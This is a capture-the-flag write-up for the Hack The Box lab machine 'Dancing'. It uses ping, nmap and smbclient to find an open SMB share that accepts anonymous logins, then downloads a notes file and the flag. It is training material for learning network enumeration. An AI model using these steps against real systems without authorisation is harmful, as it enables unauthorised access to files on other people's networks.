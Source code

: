 # [Dancing](https://app.hackthebox.com/starting-point)

## Target IP - 10.129.244.243

### Enumeration

Here we are checking if we are able to establish a connection with the target machine. In conclusion we are able to establish a connection between our lab with the target.

**Command 1** - 

`ping 10.129.244.243`

**Output** - 

```
PING 10.129.244.243 (10.129.244.243) 56(84) bytes of data.
64 bytes from 10.129.244.243: icmp_seq=1 ttl=126 time=223 ms
64 bytes from 10.129.244.243: icmp_seq=2 ttl=126 time=223 ms
64 bytes from 10.129.244.243: icmp_seq=3 ttl=126 time=227 ms
64 bytes from 10.129.244.243: icmp_seq=4 ttl=126 time=226 ms
^C
--- 10.129.244.243 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 223.375/224.862/226.739/1.491 ms
```

Here we are scanning the target machine for the open ports or services. In conclusion we find out that there is service named as microsoft-sd which is open on 245/tcp port. We can try accessing the service using smbclient.

**Command 2** -

`nmap -sV 10.129.244.243 -p 400-450`

**Output** -

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 16:07 IST
Nmap scan report for 10.129.244.243
Host is up (0.68s latency).
Not shown: 50 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.03 seconds
```

Here we tried to find out the shares present on the tagret machine and found four shares.

**Command 3** -

`smbclient -L 10.129.244.243`

**Output** - 

```
Password for [WORKGROUP\goobar07]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
tstream_smbXcli_np_destructor: cli_close failed on pipe srvsvc. Error was NT_STATUS_IO_TIMEOUT
Reconnecting with SMB1 for workgroup listing.
```

### Foothold

Now we tried accessing the target machine with "ADMIN$" share and didn't got access.

**Command 4** - 

`smbclient \\\\10.129.244.243\\ADMIN$`

**Output** -

```
Password for [WORKGROUP\goobar07]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Now we tried accessing the target machine with "IPC$" share and didn't got access.

**Command 5** -

`smbclient \\\\10.129.244.243\\IPC$`

**Output** -

```
Password for [WORKGROUP\goobar07]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Now we tried accessing the target machine with "C$" share and didn't got access.

**Command 6** - 

`smbclient \\\\10.129.244.243\\C$`

**Output** -

```
Password for [WORKGROUP\goobar07]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Now we tried accessing the target machine with "WorkShares" share and did got access.

**Command 7** -

`smbclient \\\\10.129.244.243\\WorkShares`

**Output** - 

```
Password for [WORKGROUP\goobar07]:
Try "help" to get a list of possible commands.
smb: \>
```

Now we tried to get what command's which can be used on the smb and got a list of commands that we can use.

**Command 8** -

`help`

**Output** -

```
smb: \> help
?              allinfo        altname        archive        backup
blocksize      cancel         case_sensitive cd             chmod
chown          close          del            deltree        dir
du             echo           exit           get            getfacl
geteas         hardlink       help           history        iosize
lcd            link           lock           lowercase      ls
l              mask           md             mget           mkdir
mkfifo         more           mput           newer          notify
open           posix          posix_encrypt  posix_open     posix_mkdir
posix_rmdir    posix_unlink   posix_whoami   print          prompt
put            pwd            q              queue          quit
readlink       rd             recurse        reget          rename
reput          rm             rmdir          showacls       setea
setmode        scopy          stat           symlink        tar
tarmode        timeout        translate      unlock         volume
vuid           wdel           logon          listconnect    showconnect
tcon           tdis           tid            utimes         logoff
..             !
```

We tried to list the contents down of the current directory and found 2 more directories

**Command 9** -

`ls`

**Output** -

```
smb: \> ls
  .                                   D        0  Mon Mar 29 13:52:01 2021
  ..                                  D        0  Mon Mar 29 13:52:01 2021
  Amy.J                               D        0  Mon Mar 29 14:38:24 2021
  James.P                             D        0  Thu Jun  3 14:08:03 2021

                5114111 blocks of size 4096. 1753733 blocks available
```

Listing the contents of the first directory we get "worknotes.txt".

**Command 10** -

`ls Amy.J\`

**Output** - 

```
  .                                   D        0  Mon Mar 29 14:38:24 2021
  ..                                  D        0  Mon Mar 29 14:38:24 2021
  worknotes.txt                       A       94  Fri Mar 26 16:30:37 2021

                5114111 blocks of size 4096. 1753717 blocks available
```

Downloaded the "worknotes.txt" to our so that we can access it.

**Command 11** -

`get Amy.J\worknotes.txt`

**Output** - 

```
getting file \Amy.J\worknotes.txt of size 94 as Amy.J\worknotes.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

Listing the contents of the second directory we get "flag.txt" which contains the flag of the machine.

**Command 12** -

`ls James.P\`

**Output** - 

```
smb: \> ls James.P\
  .                                   D        0  Thu Jun  3 14:08:03 2021
  ..                                  D        0  Thu Jun  3 14:08:03 2021
  flag.txt                            A       32  Mon Mar 29 14:56:57 2021

                5114111 blocks of size 4096. 1753717 blocks available
```

Downloaded the "flag.txt" to get the access of the file.

**Command 13** -

`get James.P\flag.txt`

**Output** -

```
getting file \James.P\flag.txt of size 32 as James.P\flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

### This machine has been pawned.

~goobar07
